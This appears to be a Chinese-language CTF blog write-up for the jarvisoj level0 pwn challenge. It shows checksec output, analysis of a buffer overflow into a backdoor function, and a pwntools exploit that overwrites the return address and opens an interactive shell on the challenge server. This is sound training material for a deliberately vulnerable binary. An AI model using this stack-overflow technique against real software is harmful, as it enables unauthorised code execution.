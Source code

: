 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level0
date: 2022-3-19 20:42:02
permalink: /pages/2e9547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level0

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec level0
[*] '/root/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数输出了一句Hello, World，接着调用vulnerable_function函数，该函数如下

![jarvisoj_level0_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level0_1.png)

查找函数表发现后门函数callsystem

![jarvisoj_level0_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level0_2.png)

## 思路分析

1. 目前信息
   - 栈上变量buf处可写入0x200字节数据
   - buf距离返回地址的偏移为0x80+8
3. 思路
   - 可写入字节数已经大于偏移量，可直接进行栈溢出将返回地址修改为后门函数的地址

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level0/level0'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27710)
padding = 0x80+8
backdoor = 0x40059A
io.recv()
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```